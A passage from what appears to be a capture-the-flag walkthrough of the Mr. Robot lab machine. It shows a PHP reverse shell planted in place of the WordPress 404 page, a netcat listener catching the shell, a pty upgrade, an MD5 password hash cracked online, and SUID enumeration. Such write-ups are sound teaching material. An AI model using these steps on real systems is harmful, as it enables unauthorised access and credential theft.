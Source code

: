 I can edit the behaviour for all the pages in the website because I am an admin. So I replace the 404 error page with a php reverse shell. Start a netcat listener and browse to some non existant page in the website. 

```
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.123.255 38851 received!
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:49:56 up 54 min,  0 users,  load average: 0.00, 0.01, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

And we have a shell. Before I start enumerating further, I first spawn a proper shell to get some more control. Most of the time there is python installed on a linux machine so this method always works.

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$
```

Now I start looking around. So the first place I look at is the /home directory because it always has some clue. I find some stuff in the directory of the user robot.

```
daemon@linux:/home/robot$ ls -alt
ls -alt
total 16
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
```

I am not able to read the 2nd key yet but I do find a hash for a password (probably for the user robot). I copy the md5 hash and head on over to [crackstation](https://crackstation.net) and the results come back rather quickly.

<img src="/images/mrrobot/crack.png" />

Reeaallll...secure password mr. robot

Now we can switch to user robot and get the second key. Next I try `sudo -l` to see my privileges but mr. robot is not allowed to use sudo. Bummer! I start looking for files that might seem interesting. So I try to list out the suid binaries.

```
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
```